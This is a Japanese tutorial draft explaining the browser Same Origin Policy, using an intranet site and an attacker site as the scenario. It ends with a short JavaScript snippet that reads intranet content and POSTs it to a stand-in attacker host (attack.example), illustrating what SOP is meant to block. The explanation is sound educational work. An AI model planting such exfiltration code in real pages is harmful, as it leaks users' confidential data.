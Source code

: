 ```yaml
---
title: "Same Origin Policy というセキュリティモデル"
emoji: "📝"
type: "tech"
topics: ["same origin policy", "origin", "web"]
published: false
---
```


# Same Origin Policy

SOP とは、ユーザーを保護するために Web に設けられた **セキュリティモデル** である。まずは、 SOP が実際にユーザーをどのように保護するのかを見ていく。


## SOP が無かったら

まず SOP を意識する身近な場面として、ブラウザから`fetch()` API を用いて HTTP リクエストを送信するケースを例に考える。

以下のような Web サイトを想定しよう。

- 社内サイト(Intra)
  - <https://intra.example> は、社内ネットワークに接続した社員のみアクセスできる
  - そこには社外秘の情報があり、社外からこの情報を狙う攻撃者がいる
  - 社員は、社外ネットワーク(インターネット)にもアクセスできる
- 攻撃者サイト(Attack)
  - <https://attack.example> はインターネット上にあり、誰でもアクセスできる
  - カモフラージュのため EC サイトなどを装っているが、悪意のある攻撃者が運営している
  - 攻撃者は社内ネットワークにはアクセスできないが、社員を Attack にアクセスさせ、 Intra の情報を収集できないかと狙っている

![Intra と Attack の構成](https://cacoo.com/diagrams/L0Jn5wPiobCrsSDy-98D42.png 'overview')

:::message
.example は RFC で定義された **例示のため** に自由に使うことができる Top Level Domain だ。予約されており実際に取得されることが無いため、こうしたドキュメントなどで自由に使うことができる。

- [RFC 6761 - Special-Use Domain Names](https://tools.ietf.org/html/rfc6761)

逆に、こうしたドキュメントにそれっぽい(例えばここでは intra dot com)ドメインが無責任に書かれている場合があるが、 .com などは実際に取得することが可能であるため、仮に執筆時点でだれにも取得されていなくても、将来的に取得される可能性もある。例えば、ユーザの多い負荷テストツールのドキュメントのサンプルに、自分が持っているドメインが書かれていて、毎日のように大量のリクエストが来たらどうだろうか?

慣れないと多少わかりにくいかもしれないが、ドキュメントやサンプルを書く場合には .example を使うべきであり、本書でもそれで統一している。頭の中では .com などに読み替えるとわかりやすいだろう。
:::


## 攻撃者サイトからの攻撃例

攻撃者が Attack に次のような JS を仕込み、そのページを何らかの方法で社員にアクセスさせることで、 Intra の情報を抜こうとしているとする。


```js
// AttackからIntraの情報を取得する
const res  = await fetch("https://intra.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

